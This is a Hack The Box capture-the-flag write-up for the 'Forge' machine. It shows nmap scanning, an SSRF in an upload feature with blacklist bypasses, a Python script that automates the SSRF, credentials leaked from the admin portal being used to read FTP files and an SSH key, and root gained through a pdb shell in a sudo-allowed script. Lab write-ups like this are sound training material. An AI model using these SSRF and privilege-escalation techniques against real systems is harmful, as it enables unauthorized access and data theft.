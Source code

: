 ```yaml
---
title: Hackthebox - Forge
date: 2021-10-08 00:00:00 +0530
categories: [hackthebox, linux]
tags: [ssrf, python pdb module]     # TAG names should always be lowercase
image: /assets/img/posts/forge/forge_banner.png
---
```



![](/assets/img/posts/forge/forge_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.111 forge.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://forge.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

http server redirect to: `forge.htb`

![](/assets/img/posts/forge/web-page.png)

Webapp have only file upload functionality

![](/assets/img/posts/forge/upload-page.png)

There are 2 options for file uploading.
* Local file from filesystem.
* Remote file form a url.

And uploaded file are stored in the `/uploads/` directory with random file name without any file extension. Only images get renders and all other file renders as plain text.

# Foothold

## SSRF

file upload from remote url looks interesting.
* There is a hidden parameter `remote` in url-file-upload post request contains value `1`.
* server fetching urls with python requests module, get form nc listener.

      curl -s -X 'POST' --data-binary 'url=http://127.1:21/&remote=1' 'http://forge.htb/upload'

  ![](/assets/img/posts/forge/server-url-req.png)

* localhost is blacklisted but can be bypassed with `127.1` and this can lead to SSRF(?).
* for bad urls server through errors and that way we can do port scan on local host.
* hostname `forge.htb` is also blocked but can be bypassed by using uppercase character: `FORGE.htb`

Running Intruder to bruteforce port and found ftp server port `21`.
```bash
❯ curl -s -X 'POST' --data-binary 'url=http://127.1:21&remote=1' 'http://forge.htb/upload' | grep '<strong>'
<strong>An error occured! Error : ('Connection aborted.', BadStatusLine("220 Forge's internal ftp server\r\n"))</strong>
```

but `ftp://` protocol is not allowed from url parameter.
```bash
❯ curl -s -X 'POST' --data-binary 'url=ftp://127.1:21&remote=1' 'http://forge.htb/upload' | grep '<strong>'
<strong>Invalid protocol! Supported protocols: http, https</strong>
```

still nothing can do with information.

Fuzzing for subdomain, found `admin.forge.htb`.
```bash
❯ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -H "Host: FUZZ.forge.htb" -u http://10.10.11.111 -ac -v -c

# ... [snip] ...

[Status: 200, Size: 27, Words: 4, Lines: 2, Duration: 617ms]
| URL | http://10.10.11.111
    * FUZZ: admin
```

But admin only accessible from localhost
```bash
❯ curl -s http://admin.forge.htb
Only localhost is allowed!
```

But we can access it with ssrf from `url` parameter in `/upload` and view response from uploaded file in `/uploads/` directory.

Little python script to automate file upload and read.
```py
import re
import sys
import html
import requests as r

url = 'http://forge.htb/upload'


def ssrf(ssrf_url):
    data = {'url': f'http://{ssrf_url}', 'remote': 1}
    rspn = r.post(url, data=data)
    if 'File uploaded successfully' in rspn.text:
        ssrf_rspn_file = re.findall(r'href="(.*?)"', rspn.text)[4]
        ssrf_rspn = r.get(ssrf_rspn_file)
        print(ssrf_rspn.text)
    else:
        error = re.findall(r'<strong>(.*?)</strong>', rspn.text)[0]
        print(html.unescape(error))


ssrf('127.0.0.1')
# ssrf(sys.argv[1])
```

With ssrf we Get access to admin panel.
```html
❯ python ssrf.py admin.FORGE.htb
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```

There are 2 endpoints in admin subdomain `/announcements` and `/upload`.

Got some interesting information from `/announcements`. 
```html
❯ python ssrf.py 'admin.FORGE.htb/announcements'
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```

* Ftp creds: `user:heightofsecurity123!`
* admin `/upload` allows ftp protocol.
* and file upload from admin `/upload` can be done with `/upload?u=<url>`

So we can now access to ftp server from admin `/upload` endpoint with `/upload?u=ftp://user:heightofsecurity123!@127.1:21`.

And get ftp share.
```bash
❯ python ssrf.py 'admin.FORGE.htb/upload?u=ftp://user:heightofsecurity123!@127.1:21'
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Sep 23 04:17 user.txt
```

This is an user's home directory. Try to get ssh key

![](/assets/img/posts/forge/user-ssh.png)

Get "User" shell on the box with ssh key.

# Privesc

## Python pdb Module

User have some sudo rights
```bash
user@forge:~$ sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```

This script have 2 interesting things

![](/assets/img/posts/forge/python-pdb.png)

One is a password `secretadminpassword` for connecting to the socket. Another is a exception `pdb.post_mortem(e.__traceback__)`

[pdb](https://docs.python.org/3/library/pdb.html): The module pdb defines an interactive source code debugger for Python programs.

And this exception occurs if socket quit unintended way.

Run script with sudo and connect to the socket from another terminal, Enter password then `Ctrl+c`, This will drop script to pdb shell where we can run system command with python `os` module as root.

![](/assets/img/posts/forge/rooted.png)
